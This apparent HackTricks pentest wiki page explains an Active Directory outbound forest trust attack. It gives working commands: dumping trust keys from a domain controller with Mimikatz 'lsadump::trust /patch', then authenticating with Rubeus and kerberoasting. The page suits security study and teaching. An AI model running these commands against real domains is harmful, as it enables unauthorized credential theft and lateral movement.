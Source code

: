 # External Forest Domain - One-Way (Outbound)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

In this scenario **your domain** is **trusting** some **privileges** to principal from a **different domains**.

## Enumeration

### Outbound Trust

```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=cyberbotic,DC=io
MemberDomain            : root.io
MemberName              : S-1-5-21-3022719512-2989052766-178205875-1115
MemberDistinguishedName : CN=S-1-5-21-3022719512-2989052766-178205875-1115,CN=ForeignSecurityPrincipals,DC=cyberbotic,DC=io
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```

## Trust Account Attack

When an Active Directory domain or forest trust is set up from a domain _B_ to a domain _A_ (_**B**_ trusts A), a trust account is created in domain **A**, named **B. Kerberos trust keys**,\_derived from the **trust account’s password**, are used for **encrypting inter-realm TGTs**, when users of domain A request service tickets for services in domain B.

It's possible to obtain the password and hash of the trusted account from a Domain Controller using:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```

The risk is because of trust account B$ is enabled, **B$’s Primary Group is Domain Users of domain A**, any permission granted to Domain Users applies to B$, and it is possible to use B$’s credentials to authenticate against domain A.

{% hint style="warning" %}
Therefore, f**rom the trusting domain it's possible to obtain a user inside the trusted domain**. This user won't have a lot of permissions (just Domain Users probably) but you will be able to **enumerate the external domain**.
{% endhint %}

In this example the trusting domain is `ext.local` and the trusted one is `root.local`. Therefore, a user called `EXT$` is created inside `root.local`.

```bash
# Use mimikatz to dump trusted keys
lsadump::trust /patch
# You can see in the output the old and current credentials
# You will find clear text, AES and RC4 hashes
```

Therefore, at this point have **`root.local\EXT$`**’s current **cleartext password and Kerberos secret key.** The **`root.local\EXT$`** Kerberos AES secret keys are on identical to the AES trust keys as a different salt is used, but the **RC4 keys are the same**. Therefore, we can **use the RC4 trust key** dumped from ext.local as to **authenticate** as `root.local\EXT$` against `root.local`.

```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```

With this you can start enumerating that domain and even kerberoasting users:

```
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```

### Gathering cleartext trust password

In the previous flow it was used the trust hash instead of the **clear text password** (that was also **dumped by mimikatz**).

The cleartext password can be obtained by converting the \[ CLEAR ] output from mimikatz from hexadecimal and removing null bytes ‘\x00’:

![](<../../.gitbook/assets/image (2) (1).png>)

Sometimes when creating a trust relationship, a password must be typed in by the user for the trust. In this demonstration, the key is the original trust password and therefore human readable. As the key cycles (30 days), the cleartext will not be human-readable but technically still usable.

The cleartext password can be used to perform regular authentication as the trust account, an alternative to requesting a TGT using the Kerberos secret key of the trust account. Here, querying root.local from ext.local for members of Domain Admins:

![](<../../.gitbook/assets/image (1) (1) (1).png>)

## References

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

